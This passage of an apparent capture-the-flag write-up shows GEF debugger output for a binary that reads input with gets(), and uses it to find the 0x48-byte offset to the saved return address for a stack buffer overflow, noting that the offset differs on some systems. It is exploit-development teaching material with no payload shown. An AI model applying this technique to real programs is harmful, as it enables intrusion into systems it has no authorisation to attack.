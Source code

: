 ```
$r15   : 0x0               
$eflags: [ZERO carry PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000
───────────────────────────────────────────────────────────────────── stack ────
0x00007fffffffde10│+0x0000: "0x40060d"     ← $rsp
0x00007fffffffde18│+0x0008: 0x000000000000000a
0x00007fffffffde20│+0x0010: 0x0000000000000000
0x00007fffffffde28│+0x0018: 0x0000000000000000
0x00007fffffffde30│+0x0020: 0x0000000000000000
0x00007fffffffde38│+0x0028: 0x0000000000000000
0x00007fffffffde40│+0x0030: 0x0000000000000000
0x00007fffffffde48│+0x0038: 0x0000000000000000
─────────────────────────────────────────────────────────────── code:x86:64 ────
     0x400694 <main+119>       rex.RB ror BYTE PTR [r8-0x77], 0xc7
     0x400699 <main+124>       mov    eax, 0x0
     0x40069e <main+129>       call   0x400500 <gets@plt>
 →   0x4006a3 <main+134>       leave  
     0x4006a4 <main+135>       ret    
     0x4006a5                  nop    WORD PTR cs:[rax+rax*1+0x0]
     0x4006af                  nop    
     0x4006b0 <__libc_csu_init+0> push   r15
     0x4006b2 <__libc_csu_init+2> mov    r15d, edi
─────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "warmup", stopped, reason: BREAKPOINT
───────────────────────────────────────────────────────────────────── trace ────
[#0] 0x4006a3 → main()
────────────────────────────────────────────────────────────────────────────────

Breakpoint 1, 0x00000000004006a3 in main ()
gef➤  search-pattern 15935728
[+] Searching '15935728' in memory
[+] In '[heap]'(0x602000-0x623000), permission=rw-
  0x602260 - 0x602268  →   "15935728"
[+] In '[stack]'(0x7ffffffde000-0x7ffffffff000), permission=rw-
  0x7fffffffde50 - 0x7fffffffde58  →   "15935728"
gef➤  i f
Stack level 0, frame at 0x7fffffffdea0:
 rip = 0x4006a3 in main; saved rip = 0x7ffff7a05b97
 Arglist at 0x7fffffffde90, args:
 Locals at 0x7fffffffde90, Previous frame's sp is 0x7fffffffdea0
 Saved registers:
  rbp at 0x7fffffffde90, rip at 0x7fffffffde98
```

With a bit of math, we see the offset:
```
>>> hex(0x7fffffffde98 - 0x7fffffffde50)
'0x48'
```

As a fun note, on some systems this offset winds up being 0x40 instead of 0x48. This means that one exploit does not fit all, and in the real world if you were exploiting a bunch of systems you'd have to do some work to figure out which exploit to throw on which target... and you'd have to worry about crashing systems and.... real world is a complicated place. 

